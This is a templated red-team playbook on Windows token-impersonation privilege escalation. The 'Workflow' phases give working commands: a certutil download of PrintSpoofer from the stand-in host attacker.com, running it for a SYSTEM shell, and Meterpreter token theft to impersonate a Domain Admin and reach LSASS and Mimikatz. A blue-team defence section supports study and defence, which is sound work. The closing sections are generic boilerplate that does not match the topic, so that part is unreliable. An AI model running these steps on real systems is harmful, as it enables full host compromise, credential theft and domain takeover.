

# Windows Token Impersonation

## When to Use
- When compromising an IIS web server or SQL server and achieving code execution, resulting in a low-privileged service account (e.g., `IIS APPPOOL\DefaultAppPool`).
- When executing the `whoami /priv` command yields the existence of `SeImpersonatePrivilege` or `SeAssignPrimaryTokenPrivilege`.
- To jump from local Administrator to `NT AUTHORITY\SYSTEM`, circumventing User Access Control (UAC) limitations prohibiting direct registry/LSASS access.


## Prerequisites
- Authorized scope and rules of engagement for the target environment
- Appropriate tools installed on the attack/analysis platform
- Understanding of the target technology stack and architecture
- Documentation template ready for findings and evidence capture

## Workflow

### Phase 1: Authentication Token Reconnaissance

```text
# Concept: Windows utilizes Access Tokens (like digital ID cards) to grant users, 
# processes, and threads access to resources. When a higher privileged account (like System) 
# interacts with a service, it leaves a duplicate of its token in memory.

# 1. Establish initial shell.
# 2. Check current privileges:
whoami /priv

# Crucial Output Assessment:
# Privilege Name                Description                               State   
# =========================     ====================================    ========
# SeImpersonatePrivilege        Impersonate a client after auth          Enabled 
# SeAssignPrimaryTokenPrivilege Replace a process level token            Enabled 

# If you see `SeImpersonatePrivilege`, the system is functionally compromised. You can escalate to SYSTEM.
```

### Phase 2: The "Potato" Family Exploits (JuicyPotato, PrintSpoofer, GodPotato)

```bash
# Concept: If you hold `SeImpersonatePrivilege`, you simply need a SYSTEM-level process 
# to talk to your process. "Potato" exploits forcefully coerce the NT AUTHORITY\SYSTEM account 
# into attempting an NTLM authentication against a local pipe you control.
# Once SYSTEM touches your pipe, you duplicate its access token and spawn a new shell with it.

# Scenario: IIS Web Shell execution.

# 1. Transfer PrintSpoofer (modern equivalent for Windows Server 2016-2022) to target.
certutil -urlcache -f http://attacker.com/PrintSpoofer64.exe C:\Windows\Temp\PrintSpoofer64.exe

# 2. Execution (coercing the Print Spooler service to authenticate via Named Pipes)
C:\Windows\Temp\PrintSpoofer64.exe -i -c cmd.exe

# 3. Validation:
# [v] Found privilege: SeImpersonatePrivilege
# [v] Named pipe listening...
# [v] CreateProcessAsUser() OK
# Microsoft Windows [Version 10.0.19041]
whoami
# Result: nt authority\system
```

### Phase 3: Token Stealing with Metasploit (Incognito)

```text
# Concept: Standard administrators cannot directly read passwords from memory (LSASS) without 
# jumping through UAC and debug privilege hoops. However, administrators routinely leave high-privilege 
# tokens lingering in concurrent processes (e.g., Domain Admin logged in via RDP in the background).

# 1. Within a Metasploit Meterpreter session on a compromised host:
meterpreter > load incognito

# 2. Enumerate available tokens circulating currently in memory:
meterpreter > list_tokens -u

# Output Assessment:
# Delegation Tokens Available
# ========================================
# NT AUTHORITY\SYSTEM
# CORP\DomainAdmin
# CORP\BackupServiceManager

# 3. Execute the Impersonation:
meterpreter > impersonate_token "CORP\DomainAdmin"

# 4. Result:
# You are now impersonating the Domain Admin. Every subsequent network traversal interaction (e.g., WMI)
# will present the Domain Admin token, granting you full access to the Domain Controller without needing absolute passwords.
```

### Phase 4: Manipulating Token Privileges (EnableAllTokenPrivs)

```text
# Concept: You might technically be `NT AUTHORITY\SYSTEM`, but you find yourself barred 
# from accessing LSASS because your specific thread's token has stripped its `SeDebugPrivilege` natively for safety.

# Action: You must dynamically adjust the token permissions.
# In Metasploit:
meterpreter > getsystem 
meterpreter > steal_token <PID of lsass.exe expected running as full SYSTEM>

# In C# / PowerShell Post-Exploitation APIs:
# Utilize the `AdjustTokenPrivileges` Windows API to programmatically re-enable `SeDebugPrivilege` on the active thread, 
# granting the capability to execute Mimikatz safely.
```

#### Decision Point 🔀


## 🔵 Blue Team Detection & Defense
- **Disable the Print Spooler**: A vast majority of token coercion escalation attacks (like PrintSpoofer) rely on coercing the ancient Print Spooler service (`spoolsv.exe`). Microsoft strongly recommends disabling this service on all Domain Controllers and Web Servers unless physically attached to printing hardware.
- **Service Account Hardening**: Never run websites or background services using accounts possessing elevated token rights unless explicitly necessary. Applications deploying using modern Virtual Accounts or IIS Application Pool Identities inherit strict limitations rendering token manipulation highly difficult.
- **Detect Anomalous Process Lineage**: Alert aggressively on Security Information Event Management (SIEM) rules monitoring `CreateProcessWithTokenW` or `CreateProcessAsUserW` functions executed outside of core authorized system processes like `svchost.exe` or `lsass.exe`. Finding an IIS worker process (`w3wp.exe`) utilizing impersonation to spawn `cmd.exe` is a critical severity indicator of a Potato exploit.

## Key Concepts
| Concept | Description |
|---------|-------------|
| Access Token | An object that perfectly encapsulates the security context (identity and privileges) of a logged-on process acting upon the Windows kernel |
| SeImpersonatePrivilege | A powerful privilege designed explicitly to allow a trusted service to act on behalf of a connecting user (e.g., an IIS server acting as the user writing a file) |
| NT AUTHORITY\SYSTEM | The supreme local account on a Windows machine. Possesses significantly higher core privileges than even a local Administrator, essentially possessing total ownership of the operating system |
| Coercion | Manipulating the operating system into executing an authorized NTLM authentication handshake utilizing a vulnerable API (like MS-RPRN) back toward a malicious listener |

## Output Format
```
Red Team Privilege Escalation Scenario
======================================
Tactic: Privilege Escalation (Access Token Manipulation T1134)
Target: WebServer-04 (Windows Server 2019)
Vulnerability: Application Pool Service Privileges

Description:
Initial Foothold was established via an Unrestricted File Upload vulnerability leading to an active ASPX Web Shell on WebServer-04. The shell executed within the context of the `IIS APPPOOL\WebStore` service account.

Enumeration of the web shell environment via `whoami /priv` demonstrated the `SeImpersonatePrivilege` was enabled for the service identity. 

To capitalize upon this architectural misconfiguration, the Red Team deployed the `PrintSpoofer64.exe` utility payload. Utilizing this executable, the native Windows Print Spooler service was coerced into authenticating over an established attacker-defined Named Pipe. The process intercepted the `NT AUTHORITY\SYSTEM` access token resulting from the communication validation, duplicated the structure into memory, and executed a secondary C2 Beacon executing within the newly assumed SYSTEM context.

Impact:
Immediate vertical privilege escalation resulting in Complete Host Compromise, permitting LSASS memory dumping, security software neutralization, and subsequent persistent lateral movement activities.
```

## 🛡️ Remediation & Mitigation Strategy
- **Input Validation:** Sanitize and strictly type-check all inputs.
- **Least Privilege:** Constrain component execution bounds.

## 🏆 Elite Chaining Strategy (Top 1% Hunter Methodology)
> The Architect Mindset identifies misconfigurations spanning multiple domains.
- Chain info-leaks with SSRF/RCE.
- Maintain absolute OPSEC during active engagement.

## 🏁 Execution Phase (Steps to Reproduce)
1. Perform target reconnaissance.
2. Formulate payload based on endpoints.
3. Execute the exploit and capture exfiltrated data.

**Severity Profile:** High (CVSS: 8.5)


## 🔴 Red Team
- Extract assets and enumerate endpoints.
- Execute initial payloads leveraging documented vulnerabilities.
- Pivot and escalate using chained attack paths.

## References
- Ired.team: [Token Impersonation Incognito](https://www.ired.team/offensive-security/privilege-escalation/windows-namedpipes-privilege-escalation)
- ITM4n (Creator of PrintSpoofer): [PrintSpoofer - Abusing Impersonation Privileges](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)
- MITRE ATT&CK: [Access Token Manipulation (T1134)](https://attack.mitre.org/techniques/T1134/)
